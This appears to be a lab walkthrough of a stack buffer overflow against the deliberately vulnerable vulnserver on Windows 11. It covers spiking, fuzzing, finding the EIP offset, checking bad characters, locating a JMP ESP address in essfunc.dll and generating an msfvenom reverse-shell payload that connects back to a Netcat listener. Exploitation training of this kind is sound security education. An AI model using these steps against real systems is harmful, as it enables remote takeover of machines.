

# Buffer Overflow Attack to Gain Access to a Remote System

## Introduction

A buffer is a section of memory allocated to store runtime data. A buffer overflow happens when more data is written to the buffer than it can handle, which ends up overwriting nearby memory areas.

This can lead to:

- Crashes
- Memory access errors
- Unexpected system behavior
- Execution of malicious code

Buffer overflows are commonly used to inject code that can damage files, modify program behavior, access sensitive data, escalate privileges, or open a reverse shell.

This setup shows how a vulnerable server running on a Windows machine is exploited using a Python script to get remote shell access. The server is attached to Immunity Debugger to monitor the crash and execution.

## Setup

- Host machine: Parrot Security OS
- Target machine: Windows 11

## Step 1: Starting vulnserver with Immunity Debugger

I started off by running the `vulnserver.exe` file on the Windows machine. Then I opened up Immunity Debugger, attached it to `vulnserver.exe`, and hit the play button (F9) to get it running. Now the debugger was all set and waiting to catch any crashes when the exploit hits.

## Step 2: Connecting to the Vulnerable Server

After setting everything up, I opened a terminal on the Parrot machine and connected to the target server using: `nc -nv <IP> 9999`. As soon as the connection was established, I saw the "Welcome to Vulnerable Server!" message on the screen, which confirmed the server was responding. I just typed `EXIT` to close the session for now, since the next step was to move on to generating spike templates and start spiking the server.

## Step 3: Creating Spike Template and Spiking the TRUN Function

- Spike templates define how packets are sent to the server. They're used to find vulnerable functions.
- Opened a terminal and ran `pluma trun.spk` to create the spike file.
- Wrote the following inside the file: `s_readline();`, `s_string("TRUN ");`, and `s_string_variable("0");`.
- Saved the file using `Ctrl+S` and closed the editor.
- Ran `generic_send_tcp <IP> 9999 trun.spk 0 0` to send spike data to the server.
- `<IP>` is the target system, `9999` is the port, and `0 0` are spike parameters.
- Switched to Immunity Debugger and saw the process had paused.
- EAX, ESP, EBP, and EIP registers were overwritten with "A".
- This confirmed the TRUN function has a buffer overflow issue.
- Pressed `Ctrl+Z` on Parrot to stop the running spike command.

## Step 4: Fuzzing the Vulnerable Server

- After confirming the overflow, fuzzing was needed to find the exact crash point. It helps identify when the EIP gets overwritten.
- Relaunched both `vulnserver.exe` and Immunity Debugger as admin. Attached the process again and hit Run in the toolbar.
- Used a Python script called `fuzz.py` to send increasing amounts of data to the TRUN command.
- The script multiplies the buffer in each loop and sends it over TCP. This gradually pushes the server toward a crash.
- While the script runs, the terminal shows connection attempts from the attacking machine.
- In Immunity Debugger, the process status eventually changed from Running to Paused.
- But even after the crash, the EIP register wasn’t overwritten by the script.
- Went back to the terminal on Parrot and hit `Ctrl+C` to stop the script.
- The crash happened after around 10200 bytes of input. Still, EIP stayed untouched.
- Closed everything, relaunched `vulnserver.exe`, and reattached it to Immunity again.

## Step 5: Finding the Exact Offset for EIP Overwrite

- Fuzzing showed that EIP can be overwritten with somewhere between 1 and 5100 bytes. To find the exact offset, a pattern needs to be generated.
- Opened a new terminal in root.
- Ran `cd` to move to the root directory. This made it easy to access Metasploit tools.
- Executed the command `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 10400`. It generated a unique 10400-byte pattern.
- Copied the output from the terminal using right-click → Copy. Then closed the terminal.
- Switched to the previous terminal and created a Python file called `findoff.py`. Replaced the offset variable's content with the copied pattern and saved it.
- Ran `findoff.py`, which sent the pattern to the server. This caused a buffer overflow and random bytes were placed into EIP.
- Checked Immunity Debugger and noted the EIP value that got overwritten. That value was used to calculate the offset.
- Opened a new terminal again and typed `sudo su` to become root. Moved back to the root directory with `cd`.
- Ran the command `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q 386F4337`. This found the position of the random EIP value inside the pattern.
- The flag `-l` is for length (10400 bytes), and `-q` is the EIP value from Immunity. The result showed that the offset to reach EIP was exactly 2003 bytes.
- Closed everything and re-launched both `vulnserver.exe` and Immunity Debugger as admin. Re-attached the process and hit Run to prep for the next step.

## Step 6: Overwriting the EIP Register

- Created a Python script named `overwrite.py` to test EIP control. This script sends a payload that hits exactly at the EIP offset.
- Ran the script in the terminal. Then switched over to the Windows 11 machine to check Immunity Debugger.
- Saw that the EIP register was successfully overwritten.
- This confirmed that the EIP register can be controlled. Shellcode can be injected at this point in future steps.
- Closed the vulnerable server and Immunity Debugger again. Relaunched both as admin and reattached the process.

## Step 7: Identifying Bad Characters

- Before adding shellcode, it's important to check for bad characters. These can break or stop the shellcode from working properly.
- Created a Python script named `badchars.py` and ran it from the Parrot terminal. Then switched to the Windows 11 machine.
- In Immunity Debugger, clicked on the ESP register value from the top-right. Right-clicked it and selected "Follow in Dump".
- The lower-left window showed the byte dump starting from ESP. Scrolled through it and checked for missing or corrupt characters.
- Observed that there were no bad characters in the output. This meant the shellcode can be injected safely without byte conflicts.
- Closed both the vulnerable server and Immunity Debugger again. Relaunched them as admin and reattached the process.

## Step 8: Finding a Module Without Memory Protection

- To inject shellcode, a safe module without memory protection is needed. This allows redirection of the EIP to controlled code.
- Added `mona.py` to `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands`. This script helps find suitable modules.
- Switched to Immunity Debugger and used the bottom text field to run the command `!mona modules`.
- A log window popped up showing details of different modules. It listed protection flags like ASLR, DEP, and SafeSEH.
- Noticed that the module `essfunc.dll` had no memory protection enabled. This made it a good candidate for EIP redirection.
- Decided to use `essfunc.dll` to exploit the vulnerability. This module will be used to inject shellcode and take control of EIP.

## Step 9: Getting JMP ESP Address from essfunc.dll

- The goal now is to use `essfunc.dll` to take control of EIP. This involves finding a `JMP ESP` instruction in the module.
- Switched to the Host machine and opened a new terminal. Gained root access using `sudo su` and changed directory with `cd`.
- Created and ran a script named `converter.py`. It takes assembly instructions as input and gives hex output.
- When the prompt `Enter the assembly code here:` appeared, typed `JMP ESP` and pressed Enter.
- The script returned `ffe4` as the hex value for `JMP ESP`. Noted it down and closed the terminal.
- Switched to the Windows 11 machine and opened Immunity Debugger. In the command field at the bottom, typed `!mona find -s "\xff\xe4" -m essfunc.dll`.
- The output showed a valid return address for `JMP ESP` inside `essfunc.dll`. This address will be used to overwrite EIP.
- Closed both Immunity Debugger and vulnserver. Relaunched and reattached the process again as admin.

## Step 10: Verifying Control Over EIP Using Return Address

- In Immunity Debugger, clicked the "Go to address in Disassembler" icon. A pop-up appeared asking for the target address.
- Entered the return address found earlier (e.g., `625011af`) and clicked OK. It jumped to the instruction at that address.
- Pressed `F2` to set a breakpoint at the selected `JMP ESP` instruction. This sets up a trigger to catch the redirection.
- Clicked the Run icon in the toolbar to continue execution. Immunity Debugger started running again.
- Switched to the Parrot Security machine. Executed the Python script `jump.py` from the terminal.
- Back in Immunity, observed that EIP was overwritten with the return address. This confirmed the redirection worked as expected.
- The ability to control EIP depends on using modules without memory protection. In this case, `essfunc.dll` allowed that.
- Closed both Immunity Debugger and the vulnerable server. Relaunched `vulnserver.exe` again as administrator for the next step.

## Step 11: Generating and Injecting Shellcode

- Opened a root terminal on the Parrot machine. Used `sudo su` to switch to root access.
- Ran the following command to generate reverse shell payload: `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`.
- The shellcode was generated in C format. Selected the code, right-clicked, and copied it.
- Closed the terminal and switched back to the previous one. Created a new script named `shellcode.py`.
- Replaced the buffer section (Line 4) with the copied shellcode. Added `b` before each string to convert them into bytes.
- Before running the script, opened another terminal and typed `nc -nvlp 4444`. This started Netcat to listen for incoming reverse shell.
- Then executed the `shellcode.py` script from the terminal. Switched back to the Netcat terminal to monitor incoming connection.
- Saw that shell access to the target vulnerable Windows server was successfully established. The reverse shell was now active.

